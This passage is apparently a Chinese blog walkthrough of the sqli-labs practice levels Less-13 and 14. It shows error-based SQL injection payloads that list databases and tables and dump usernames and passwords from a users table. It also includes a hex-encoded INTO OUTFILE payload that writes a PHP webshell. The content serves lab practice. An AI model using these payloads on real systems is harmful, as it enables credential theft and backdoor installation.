 ![Pasted image 20250324141135](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324141135.png)
```
从返回结果（sql语法问题）可见本关的闭合是')
```
使用
```php
uname=admin') order by 2 --+&passwd=pass&submit=Submit
uname=admin') order by 3 --+&passwd=pass&submit=Submit
进行测试，发现可知查询结果有两列
```
![Pasted image 20250324141332](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324141332.png)
![Pasted image 20250324141349](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324141349.png)
使用union进行查询，发现没有回显。
```php
uname=admin') union select 1,2 --+&passwd=pass&submit=Submit
```
![Pasted image 20250324141550](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324141550.png)
看来这关要用报错注入了
```php
#获取服务器上所有数据库的名称
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),32,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),63,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库的所有表名称
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),32,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库users表的所有列名称
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),1,31),0x7e),1)#&passwd=pass&submit=Submit
#获取pikachu数据库users表的username和password列的所有值
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),1,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),32,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),63,31),0x7e),1)#&passwd=pass&submit=Submit
uname=ele') and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from pikachu.users),94,31),0x7e),1)#&passwd=pass&submit=Submit
```
写webshell的payload:
```
uname=ele') or 1=1 limit 0,1 into outfile 'C:/less13.php' lines terminated by 0x3c3f7068702061737365727428245f504f53545b6c65737331335d293b3f3e#&passwd=pass&submit=Submit
```
![Pasted image 20250324141817](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324141817.png)
# Less-14
这关回显sql语法错误，并且闭合是"
测试
```
uname=admin"&passwd=pass&submit=Submit
```
![Pasted image 20250324142325](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250324142325.png)
和上一关一样，这关如果sql查询有值也不显示，所以还是用报错注入，图就不截了，和上一关差不多，跨库爆数据的所有payload如下：
```php
#获取服务器上所有数据库的名称
```